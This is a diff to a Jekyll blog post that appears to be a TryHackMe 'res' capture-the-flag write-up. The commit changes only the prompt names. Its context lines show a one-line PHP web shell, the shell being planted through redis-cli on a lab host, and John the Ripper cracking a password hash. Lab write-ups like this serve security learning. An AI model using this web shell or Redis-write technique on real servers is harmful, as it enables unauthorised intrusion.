

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-10-12-res-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1624 px. Shown: the part 188-475 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-10-12-res-writeup.md

````diff
--- a/_posts/2020-10-12-res-writeup.md
+++ b/_posts/2020-10-12-res-writeup.md
@@ -74,7 +74,7 @@
 root@parrot  ~/Desktop/tryhackme/res  nano shell.php
 root@parrot  ~/Desktop/tryhackme/res  cat shell.php
 <?php echo shell_exec($_GET['e'].' 2>&1'); ?>
-argenestel@parrot  ~/Desktop/tryhackme/res  cat shell.php | redis-cli -h 10.10.79.132 -x set lkey
+root@parrot  ~/Desktop/tryhackme/res  cat shell.php | redis-cli -h 10.10.79.132 -x set lkey
 
 OK
 root@parrot  ~/Desktop/tryhackme/res  redis-cli -h 10.10.79.132
@@ -134,7 +134,7 @@
 ```
 
 ```bash
-Argenestel@parrot  ~/Desktop/tryhackme/res  john --wordlist=/usr/share/wordlists/rockyou.txt vianka.hash
+root@parrot  ~/Desktop/tryhackme/res  john --wordlist=/usr/share/wordlists/rockyou.txt vianka.hash
 Using default input encoding: UTF-8
 Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
 Cost 1 (iteration count) is 5000 for all loaded hashes
````
